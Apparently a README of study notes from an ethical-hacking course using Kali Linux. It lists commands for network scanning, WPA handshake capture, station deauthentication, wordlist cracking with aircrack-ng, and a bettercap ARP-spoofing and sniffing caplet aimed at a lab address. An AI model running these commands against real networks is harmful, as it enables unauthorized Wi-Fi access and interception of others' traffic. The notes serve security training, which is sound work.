 # udemy-ethical_hacking_kali_linux
## Udemy - Ethical Hacking With Python, JavaScript and Kali Linux  

### In Kali Linux use next introduction tools:  
netdiscover -i eth0 -r 10.0.2.1/24  
zenmap     --> better tool to scan the network (uses nmap as a core command)  
airmon-ng  --> wlan tool that makes possible to cahange status from Managed to Monitor mode  
iwconfig wlan0 mode monitor  --> manually change mode to Monitor (used after executing "ifconfig wlan0 down/up")  
  
fern --> GUI application to crack WI-FI  
airodump-ng --bssid --channel 6 --write demo-handshake wlan0mon  --> capturing connection handshake  
aireplay-ng --deauth 4 -a (BSSID) -c (STA) wlan0mon  --> force disconnect station and capture with previous app WPA handshake  
aircrack-ng demo-handshake-01.cap -w wordlist  --> will crack demo-handshake against generated wordlist  
  
### In Kali linux try introduction for "bettercap":  

sudo bettercap  --> enter to the console of application  
help            --> to see which odules are available/enabled  
help net.probe  --> will send UDP packets to probe the network on connected devices  
net.probe on    --> turn it on  
help arp.spoof  -->  
set arp.spoof.fullduplex true   --> Will attack the target and the Gateay, this will ensure that if there is protection in GTW, the attack will succeed.  
set arp.spoof.targets 10.0.2.4  --> Adding the target to monitor.  
arp.spoof on    --> enable the spoof service  
set net.sniff.local true  --> If true, will consider packets from/to computer as local.  
net.sniff on    --> enable the sniffing service  
  
  
vim sniff.cap  
----------------------------  
net probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 10.0.2.4  
set net.sniff.local true  
arp.spoof on  
net.sniff on  
----------------------------  

bettercap -iface eth0 -caplet sniff.cap  --> will do manual job as auto.  
